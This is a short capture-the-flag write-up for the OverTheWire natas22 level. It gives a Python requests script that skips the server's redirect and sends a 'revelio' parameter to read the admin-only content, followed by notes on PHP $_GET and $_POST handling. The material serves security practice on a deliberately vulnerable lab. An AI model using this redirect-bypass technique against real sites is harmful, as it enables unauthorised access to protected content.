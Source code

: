 # natas22

This is easy. Notice when everything is submitted as before(with or without cookie), we are being redirection to some `Location`. In the docs of `requests` library in python, it says we can disallow redirects. Thus our code becomes-
```python
import requests

# URLs for both sites
url = 'http://natas22.natas.labs.overthewire.org/index.php'

auth = ('natas22', '<password>')  # replace with the actual password

session = requests.Session()
session.auth = auth

# Step 1: Set the admin variable to 1 on the experimenter site
data = {'admin': '1'}
response = session.post(url, data=data)
params = {'revelio': ''}    

response = session.get(url,params=params, data=data, allow_redirects=False)

if 'You are an admin' in response.text:
    print('Success! Here is the response:')
    print(response.text)
else:
    print('Failed to get admin access.')
```

### Note about PHP
In PHP, data that is sent via a GET request is typically accessed through the $_GET superglobal array, while data sent via a POST request is accessed through the $_POST superglobal array.

If you see something like $_GET['param'] in the PHP code, that means the param is expected to be in the URL query string, and you would send it as a parameter (params) in your Python requests.

If you see $_POST['data'], that means the data is expected to be in the request body, and you would send it as data (data) in your Python requests.

In CTF's, they may go against this common idea to set up the problem, just like you can see in our previous codes.
